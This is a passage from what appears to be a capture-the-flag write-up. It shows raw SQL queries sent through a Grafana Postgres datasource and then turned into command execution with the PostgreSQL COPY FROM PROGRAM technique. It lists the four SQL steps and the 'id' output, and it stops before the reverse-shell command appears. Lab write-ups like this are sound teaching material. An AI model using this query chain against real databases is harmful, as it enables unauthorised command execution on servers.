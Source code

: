 This is just the data for the dashboard.

### PostGres Execution

#### Query POC

It seems as if I can send raw Postgres queries into the database. I’ll send this request to Repeater and try editing the `rawSql` field to a simple `select version()`:

![image-20230831161136180](https://0xdf.gitlab.io/img/image-20230831161136180.png)

It returns all the details. This has actually be raised as an [issue on GitHub](https://github.com/grafana/grafana/issues/32043) and the creator said it will be a long time before this is fixed! Someone on the thread calls this SQL injection, but it’s more like straight up raw SQL querying.

#### RCE POC

I can use this to enumerate the database, but there’s nothing really important there to find.

[This post](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) talks about turning Postgres queries into command execution, which was given the ID CVE-2019-9193. It’s not really a CVE as much as it is a feature that is easily abused.

The post outlines the following steps:

1. `DROP TABLE IF EXISTS cmd_exec;` \- remove the `cmd_exec` table if it exists; this returns a `results` structure with no values.

2. `CREATE TABLE cmd_exec(cmd_output text);` \- create a table to store command output in; this returns a `results` structure with no values.

3. `COPY cmd_exec FROM PROGRAM 'id';` \- get the results of the `id` command into the table; this returns a `results` structure with no values. It is important to get regularly single quotes, not the fancy once that copy out of the post.

4. `SELECT * FROM cmd_exec;` \- display the results - this returns a `results` structure with a bunch of stuff, most importantly:



```
"data": {
       "values": [
           [
               "uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)"
           ]
       ]
}

```


That’s RCE!

#### Shell

To get a shell, I don’t have to recreate the table or worry about the output. I’ll pull up the third command above and replace `id` with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
